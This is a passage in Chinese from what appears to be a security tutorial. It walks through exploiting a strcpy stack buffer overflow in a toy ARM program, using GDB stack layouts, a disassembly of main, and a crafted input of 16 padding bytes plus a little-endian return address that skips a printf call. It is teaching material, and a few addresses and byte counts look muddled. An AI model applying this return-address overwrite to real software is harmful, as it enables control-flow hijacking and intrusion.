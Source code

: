     你应该注意到 `0x000084f5` 的值变为了 `0x00008400`；它们非常相似，因为当 `strcpy` 将我们的输入写入缓冲区时，它部分地用跟随我们字符串的 `NULL` 字节覆盖了保存的 `lr` 值；这就是为什么 `0xf5` 被替换为 `0x00`。现在我们知道，我们的 16 个字符的输入覆盖了保存的返回地址的一个字节。这意味着要完全覆盖 2 字节的返回地址，我们需要添加 2 字节的输入——容纳 `NULL` 字节——最后 4 个字节是新的返回地址。以下是它的工作原理：

    在 `strcpy` 调用之前，栈有以下结构：

    | 无关紧要的栈内容 | 输入缓冲区字段 | 保存的 lr 值 |
    | --- | --- | --- |
    | 0xbee6fc75 | 0xbee6fb44 | 0xbee6fb50 | 0x00000000 | 0x000084ed | 0x00000 | 0x84 | 0xF5 |

    在使用 16 字节输入的 `strcpy` 调用之后，栈有以下结构：

    | 无关紧要的栈内容 | 输入缓冲区字段 | 保存的 lr 值 |
    | --- | --- | --- |
    | …0xbee6fc75 | 16 个字符 | 0x00000 | 0x84 | 0x00 |

    加粗的 `0x00` 值是我们输入的 `NULL` 字节；基于此，我们需要输入 16 个字符加上 2 个字符作为新的返回地址，如下所示：

    | 无关紧要的栈内容 | 输入缓冲区字段 | 保存的 lr 值 |
    | --- | --- | --- |
    | …0xbee6fc75 | [16 个字符] | 0x00000 | 0x?? | 0x?? |

    在这里，`0x??` 字符表示我们给 `strcpy` 调用提供的额外输入字符，以覆盖返回地址；同样，我们在额外输入字符后看到了 `0x00` 字符。

1.  使用给定的输入重新启动 GDB 服务器；尝试跳过 `printf "you lose"` 调用并检查它是否被执行——这是一种检查你是否成功重定向执行流程的简单方法。以下是你可以获取一个重定向执行流程的示例地址的方法。通过在 GDB shell 中执行以下命令来反汇编主部分：

    ```kt
    disass main

    ```

    这将产生以下输出：

    ```kt
    0x000084ec <+0>:  push {r3,lr}
    0x000084ee <+2>:  ldr r0,[r1, #4]
    0x000084f0 <+4>:  bl 0x84d0 <vulnerable>
    0x000084f4 <+8>:  ldr r0, [pc, #8]
    0x000084f6 <+10>:  add r0,pc
    0x000084f8 <+12>:  blx 0x83f8
    0x000084fc <+16>:  movs r0,#0
    0x000084f3 <+18>:  pop {r3,pc}
    0x00008500 <+20>:  andeq r1,r0,r2,asr,r5

    ```

    在 `0x000084f8` 的 `blx` 指令显然是调用 `printf` 的，如果我们想跳过它，我们需要获取紧随其后的指令的地址，即 `0x000084fc`。更具体地说，我们将以下内容作为输入提供给我们的程序：

    `[16 个填充字符] \xfc\x84`

    由于架构的字节序，指定返回地址的字节是反序给出的。

1.  使用 GDB 服务器重新启动应用程序，这次给它以下输入：

    ```kt
    echo –e "1234567890123456\xfc\x84"`
